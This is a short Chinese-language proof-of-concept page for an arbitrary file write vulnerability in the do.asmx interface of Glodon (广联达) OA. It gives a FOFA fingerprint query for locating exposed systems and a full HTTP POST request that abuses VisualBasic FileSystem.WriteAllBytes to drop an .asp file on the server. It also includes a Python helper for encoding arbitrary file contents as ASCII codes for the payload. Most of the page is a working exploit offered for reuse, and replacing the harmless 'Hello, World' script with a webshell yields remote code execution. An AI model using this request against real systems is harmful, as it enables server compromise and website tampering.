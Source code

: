 # 广联达OA系统接口do.asmx存在任意文件写入漏洞

广联达OA系统接口do.asmx存在任意文件写入漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

## poc

```javascript
POST /m/mobileAction.ashx/do.asmx?controller=Microsoft.VisualBasic.FileIO.FileSystem%2c%20Microsoft.VisualBasic%2c%20Version%3d8.0.0.0%2c%20Culture%3dneutral%2c%20PublicKeyToken%3db03f5f7f11d50a3a&action=WriteAllBytes HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Connection: close

["\"D:\\\\Program Files (x86)\\\\Glodon\\\\GTP\\\\data\\\\gtp-default\\\\FileStorage\\\\UserFiles\\\\1.asp\"","[60, 37, 32, 82, 101, 115, 112, 111, 110, 115, 101, 46, 87, 114, 105, 116, 101, 40, 34, 72, 101, 108, 108, 111, 44, 32, 87, 111, 114, 108, 100, 34, 41, 32, 37, 62]","false"]
```

请求体中的上传路径并不通用，需要根据实际环境选择，文件的内容需要转换为ASCII码

```python
def ascii_to_char(ascii_codes):  
    """将ASCII码列表转换为字符"""  
    return ''.join(chr(code) for code in ascii_codes)  
  
def char_to_ascii(char):  
    """将字符串转换为ASCII码列表"""  
    return [ord(c) for c in char]  
  
def main():  
    print("0 字符转ASCII码")  
    print("1 ASCII码转字符")  
    choice = input("请选择转换类型（0/1）: ")  
  
    if choice == '0':  
        # 字符转ASCII码  
        chars = input("请输入要转换的字符: ")  
        ascii_codes = char_to_ascii(chars)  
        print("字符转ASCII码:", ascii_codes)  
    elif choice == '1':  
        # ASCII码转字符  
        ascii_codes_str = input("请输入以逗号分隔的ASCII码（例如：65,66,67）: ")  
        ascii_codes = [int(code.strip()) for code in ascii_codes_str.split(',')]  
        converted_chars = ascii_to_char(ascii_codes)  
        print("ASCII码转字符:", converted_chars)  
    else:  
        print("无效的输入，请输入0或1。")  
  
if __name__ == "__main__":  
    main()
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409141650271.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409141650535.png)